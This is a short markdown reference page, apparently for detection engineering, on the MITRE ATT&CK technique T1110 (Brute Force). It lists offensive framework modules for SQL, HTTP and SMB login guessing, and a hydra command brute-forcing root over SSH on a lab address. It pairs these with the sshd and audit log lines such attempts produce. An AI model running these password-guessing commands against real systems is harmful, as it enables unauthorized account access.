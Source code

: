 
# Brute Force

## Description

### MITRE Description

> Adversaries may use brute force techniques to gain access to accounts when passwords are unknown or when password hashes are obtained. Without knowledge of the password for an account or set of accounts, an adversary may systematically guess the password using a repetitive or iterative mechanism. Brute forcing passwords can take place via interaction with a service that will check the validity of those credentials or offline against previously acquired credential data, such as password hashes.

## Aliases

```

```

## Additional Attributes

* Bypass: None
* Effective Permissions: None
* Network: None
* Permissions: ['User']
* Platforms: ['Linux', 'macOS', 'Windows', 'Office 365', 'Azure AD', 'SaaS', 'GCP', 'AWS', 'Azure']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1110

## Potential Commands

```
powershell/recon/get_sql_server_login_default_pw
powershell/recon/http_login
powershell/situational_awareness/network/smbautobrute
powershell/situational_awareness/network/smbscanner
Shell
root @ icbc: / hacker / mima # hydra -l root -P passwd.txt ssh: //192.168.159.132 -V
Hydra v9.0 (c) 2019 by van Hauser / THC - Please do not use in military or secret service organizations, or for illegal purposes.
Log
Failed password for root from 192.168.159.129 port 43728 ssh2
Log
type = USER_AUTH msg = audit (1572163129.581: 316): pid = 2165 uid = 0 auid = 4294967295 ses = 4294967295 msg = 'op = PAM: authentication acct = "root" exe = "/ usr / sbin / sshd" hostname = 192.168 .159.129 addr = 192.168.159.129 terminal = ssh res = failed '
auth.log
audit.log
```
